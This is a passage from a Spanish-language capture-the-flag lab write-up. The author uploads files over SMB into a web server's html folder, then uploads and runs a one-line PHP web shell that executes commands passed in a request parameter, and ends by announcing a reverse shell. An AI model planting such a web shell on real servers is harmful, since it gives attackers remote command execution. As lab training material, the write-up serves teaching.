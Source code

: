 Ahora vamos a subir una archivo `.txt` para ver si podemos verlo en la web 

```bash
❯ catn test.txt
hola estoy dentro
``` 

Si subio 

```bash
smb: \html\> put test.txt
putting file test.txt as \html\test.txt (8.8 kb/s) (average 8.8 kb/s)
smb: \html\>
``` 

Y bueno podemos ver el contenido 

![](/assets/images/hvm-writeup-connection/Web2.png)

Ahora sabiendo esto podemos subir directamente un archivo `.php` para poder ganar acceso 

```bash
❯ catn pwned.php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Ahora vamos a subirlo por `smb`

```bash
smb: \html\> put pwned.php
putting file pwned.php as \html\pwned.php (32.2 kb/s) (average 20.5 kb/s)
smb: \html\> 
```

Y funciona

![](/assets/images/hvm-writeup-connection/Web5.png) 

## Shell www-data

Ahora nos vamos a enviar una reverse shell 

![](/assets/images/hvm-writeup-connection/Web6.png)
